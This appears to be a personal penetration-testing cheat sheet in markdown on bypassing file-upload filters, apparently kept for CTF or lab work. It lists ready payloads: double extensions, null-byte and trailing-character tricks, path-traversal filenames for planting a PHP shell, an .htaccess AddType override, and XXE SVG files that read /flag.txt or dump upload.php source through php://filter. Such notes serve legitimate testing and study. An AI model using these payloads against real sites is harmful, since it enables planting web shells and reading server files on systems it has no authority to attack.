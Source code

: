 #encoding
#php
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

[[File Upload]]
##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Add trailing characters. 
Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`

##### URL encoding
%

##### Null byte
Adding `%00` to http requests creates miracles.
`exploit.php%00.jpg`
then open `/uploads/exploit.php%00.jpg` 
`%00` ends parsing on it and downloads `exploit.php`

##### Low level functions of C/C++
`exploit.asp;.jpg` or `exploit.asp%00.jpg`

###### Try using multibyte unicode characters,
Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`

##### If extensions is stripped, double it
`exploit.p.phphp`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed
[[file upload with apache]]
```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

#xml
SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```